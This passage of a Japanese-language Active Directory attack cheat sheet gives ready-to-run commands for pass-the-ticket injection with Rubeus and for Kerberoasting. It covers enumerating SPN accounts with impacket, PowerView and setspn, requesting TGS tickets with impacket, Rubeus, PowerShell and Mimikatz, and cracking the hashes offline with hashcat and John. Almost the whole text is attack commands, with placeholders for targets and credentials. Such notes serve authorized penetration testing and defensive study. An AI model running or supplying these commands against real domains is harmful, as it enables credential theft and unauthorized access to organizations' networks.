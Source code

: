 ### Rubeus (Windows - PtT)
Base64エンコードされたチケットや.kirbiファイルをメモリに注入してKerberos認証
```powershell
.\Rubeus.exe ptt /ticket:<BASE64_TICKET_OR_KIRBI_FILE>
```

## Kerberoasting
### SPNアカウント列挙
サービスプリンシパル名(SPN)が設定されたユーザーアカウント（Kerberoastingの対象）の列挙
- GetUserSPNs.py (Linux)
```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP>
```
- PowerView (Windows)
```powershell
Get-DomainUser -SPN
```
- setspn.exe (Windows)
```shell
setspn.exe -Q */*
```
### TGSチケット要求
列挙したSPNアカウントのTGS（サービスチケット）を要求し、そのハッシュを取得
- 一回も使われたことがないアカウントは、ダミーアカウントかもしれないから注意

- GetUserSPNs.py
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <DOMAIN>/<USER>:<PASSWORD> -request -outputfile tgs_tickets
```
- Rubeus (Windows)
```powershell
.\Rubeus.exe kerberoast /user:<TARGET_USER> /nowrap /format:hashcat
```
    *(RC4強制は `/tgtdeleg` オプション)*
- PowerShell (Windows, 手動)
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```
- (Mimikatzでメモリからエクスポート)
```powershell
kerberos::list /export
```
### ハッシュクラック
取得したTGSハッシュ（モード13100）をオフラインでクラック
- Hashcat
```shell
hashcat -m 13100 tgs_tickets /path/to/wordlist.txt
```
- John
```shell
john --wordlist=/path/to/wordlist.txt tgs_tickets
```
